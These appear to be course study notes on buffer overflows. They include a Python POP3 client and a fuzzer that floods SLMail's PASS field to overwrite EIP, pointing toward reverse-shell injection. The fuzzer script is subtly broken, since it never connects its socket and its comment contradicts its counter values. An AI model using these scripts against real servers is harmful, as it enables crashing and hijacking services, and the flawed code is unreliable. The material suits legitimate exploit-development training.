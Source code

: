 # Buffer Overflows

There are three main ways of identifying flaws in applications.
  - If the source code of the application is available, then source code review is probably the easiest way to identify bugs.
  - If the application is closed source, you can use reverse engineering techniques, or fuzzing, to find bugs.

## Fuzzing

  - Fuzzing involves sending malformed data into application input and watching for unexpected crashes.
  - An unexpected crash indicates that the application might not filter certain input correctly. This could lead to discovering an exploitable vulnerability.

#### A Word About DEP and ASLR

  - __DEP__ (Data Execution Prevention) is a set of hardware, and software, technologies that perform additional checks on memory, to help prevent malicious code from running on a system.
  - The primary benefit of __DEP__ is to help prevent code execution from data pages, by raising an exception, when execution occurs.
  - __ASLR__ (Address Space Layout Randomization) randomizes the base addresses of loaded applications, and DLLs, every time the Operating System is booted.
#### Interacting with the POP3 Protocol

  > if the protocol under examination was unknown to us, we would either need to look up the RFC of the protocol format, or learn it ourselves, using a tool like Wireshark.

  - To reproduce the netcat connection usage performed earlier in the course using a Python script, our code would look similar to the following

    ```python
    #!/usr/bin/python
    import socket
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    try:
      print "\nSending vil buffer..."
      s.connect(('10.0.0.22',110))     #connect to IP, POP3 port
      data = s.recv(1024)     # receive banner
      print data     # print banner

      s.send('USER   test' +'\r\n')     # end username "test"
      data = s.recv(1024)     # receive reply
      print data     # print reply

      s.send('PASS test\r\n')     # send password "test"
      data = s.recv(1024)     # receive reply
      print data     # print reply

      s.close()     # close socket
      print "\nDone!"

    except:
      print "Could not connect to POP3!”
    ```

  - Taking this simple script and modifying it to fuzz the password field during the login process is easy. The resulting script would look like the following.

    ```python
    #!/usr/bin/python
    import socket

    # Create an array of buffers, from 10 to 2000, with increments of 20.
    buffer=["A"]
    counter=100

    while len(buffer) <= 30:
      buffer.append("A"*counter)
      counter=counter+200

    for string in buffer:
      print "Fuzzing PASS with %s bytes" %len(string)
      s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      s.recv(1024)
      s.send('USER test\r\n')
      s.recv(1024)
      s.send('PASS ' + string + '\r\n')
      s.send('QUIT\r\n')
      s.close()
    ```
    - Run this script against your SLMail instance, while attached to __Immunity Debugger__.
    - The results of running this script shows that the __Extended Instruction Pointer (EIP)__ register has been overwritten with our input buffer of A’s (the hex equivalent of the letter A is \x41). 
    - This is of particular interest to us, as the EIP register also controls the execution flow of the application. 
    - This means that if we craft our exploit buffer carefully, we might be able to divert the execution of the program to a place of our choosing, such as a into the memory where we can introduce some reverse shell code, as part of our buffer.
